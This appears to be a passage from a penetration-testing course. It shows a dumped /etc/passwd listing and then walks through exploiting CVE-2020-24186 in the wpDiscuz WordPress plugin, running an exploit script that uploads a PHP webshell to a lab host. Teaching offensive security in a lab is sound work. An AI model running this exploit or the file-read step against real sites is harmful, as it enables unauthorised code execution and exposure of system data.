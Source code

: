 ```shell
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```

#### Vulnerable Plugins - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. More on the mime type detection functions bypass can be found [here](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

```shell
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
---------------------------------------------------------------

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot;

> id

[x] Failed to execute PHP code...

```
